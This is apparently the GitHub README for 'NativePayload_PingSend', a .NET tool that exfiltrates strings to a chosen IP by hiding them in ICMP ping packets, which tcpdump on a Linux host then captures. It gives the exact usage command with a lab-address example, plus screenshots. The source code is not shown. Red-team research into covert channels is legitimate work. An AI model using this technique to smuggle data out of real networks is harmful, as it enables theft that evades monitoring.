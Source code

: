# NativePayload_PingSend
## NativePayload_PingSend sned data/string (exfiltration) to destination ip via icmp ping packets

## as you can see with this code you can send data/string via ping request to linux side via ping linux ipaddress, and in linux side with tcpdump you can dump those string/data in ping packets


           md5 info 74718db7bc753bd2161bf46b0d06a31e => NativePayload_PingSend.exe


### Source code tested by .Netframework 4.7.2 

### Target Platform x64 is ok.

    usage: NativePayload_PingSend.exe ipaddress "string"    
      example NativePayload_PingSend.exe 192.168.56.101 "your string which want to send to target ipaddress via icmp ping packets"


###  NativePayload_PingSend  
   ![](https://github.com/DamonMohammadbagher/NativePayload_PingSend/blob/main/icmp.png)

###  NativePayload_PingSend  
   ![](https://github.com/DamonMohammadbagher/NativePayload_PingSend/blob/main/icmp2.png)

###  NativePayload_PingSend  
   ![](https://github.com/DamonMohammadbagher/NativePayload_PingSend/blob/main/netmon3.png)

<p><a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https://github.com/DamonMohammadbagher/NativePayload_PingSend"/></a></p>
